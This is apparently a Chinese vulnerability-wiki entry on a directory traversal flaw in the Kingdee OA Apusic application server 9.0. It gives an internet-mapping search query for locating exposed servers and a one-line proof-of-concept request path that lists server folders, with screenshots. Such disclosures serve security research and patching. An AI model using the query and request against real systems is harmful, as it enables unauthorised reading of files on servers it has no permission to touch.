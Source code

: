 # 金蝶OA Apusic应用服务器(中间件) server_file 目录遍历漏洞

## 漏洞描述

金蝶OA Apusic应用服务器(中间件) 存在任意文件读取漏洞，攻击者通过漏洞可以获取目录下的文件信息

## 漏洞影响

<a-checkbox checked>金蝶OA 9.0 Apusic应用服务器(中间件) </a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="Apusic-公司产品" && title=="欢迎使用Apusic应用服务器"</a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1629466520262-6fed551f-2c99-4966-82df-a2c5550a216d.png)

验证POC

```bash
/admin/protected/selector/server_file/files?folder=/
```

![img](/assets/PeiQi-Wiki/img/1629466554121-8f3d039e-9243-42c1-bd3e-65cdbba62569.png)